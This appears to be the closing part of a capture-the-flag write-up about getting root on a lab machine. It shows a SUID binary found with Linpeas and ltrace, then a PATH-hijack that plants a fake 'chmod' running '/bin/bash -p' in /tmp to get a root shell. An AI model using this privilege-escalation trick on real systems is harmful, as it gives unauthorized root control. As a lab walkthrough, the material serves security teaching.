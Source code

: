 
# <p style="color:RED">Root PrivEsc </p>

Let's first run Linpeas!
Going through the output, we can see that there is unusual suid binary
<img src="suid.png">

let's run Ltrace on this binary

<img src="ltrace.png">

We can abuse this binary, by creating a fake malicious chmod binary 

```bash
echo "/bin/bash -p" > /tmp/chmod
chmod 777 /tmp/chmod
export PATH=/tmp:$PATH
```
Then we run the binary!

<img src="root.png">
And we rooted the box!

## Thanks for reading hope you enjoyed it!


